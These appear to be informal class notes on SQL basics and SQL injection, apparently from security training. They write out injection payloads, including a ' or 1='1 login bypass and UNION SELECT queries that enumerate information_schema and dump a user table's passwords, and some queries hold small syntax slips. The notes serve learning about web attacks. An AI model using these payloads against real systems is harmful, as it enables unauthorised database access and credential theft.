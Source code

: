 # DAY 3

SQL - Structured Query Language
  - language used to interact with relational database management systems (rdms)
    - relational databases - data organized based off logical relationships and can be accessed or reassembled in different way wihtout the need to reorganize the data
      - databases are broken into **tables**, tables contain **Columns/Fields** and **rows** which contain data
        - each table has a unique primary key 
      - ***by default, `information_schema`, `performance_schema`, and `mysql` are databases in mysql***
      - all sql queries end in semicolons
    - `use [database];`
    - `show tables;`
    - `select * from [table];`
    - `select [column name] from [table];`


### SQL INJECTION
- Require Valid SQL Queries
- Fully patched systems can be vulnerable due to misconfiguration
- Input Field Sanitization
- String vs Integer Values
- Is **information_schema** Database available?
- GET(URL) Request versus POST(INPUT THING) Request HTTP methods

`select id where user='deez' and passwd='jcac'`

something about putting `' or 1='1` in a username and/or input spot

`badurl.com/login.php?user=' or 1='1 & passwd=' or '1`

`login.php?<COPYANDPASTEDRAWREQEUSTDATA>`

once you find an option that is vulnerable: (audi)
  - you have to figure out how many columns are in the table, will never be less than what was originally found, but can be more
  - `Audi' UNION SELECT 1,2,3,4;#` (add more columns to figure it out)
  - in example, 1345 columns are available
  - `Audi' UNION SELECT table_name,2,table_schema,column_name,5, FROM information_schema.columns; #`
    - dumps the whole database in a really weird format
    - `Audi' UNION SELECT table_name,2,table_schema,column_name,5, FROM information_schema.columns WHERE table_schema='session'; #`
    - `Audi' UNION SELECT id,2,name,pass,5 FROM session.user; #
    - @@version









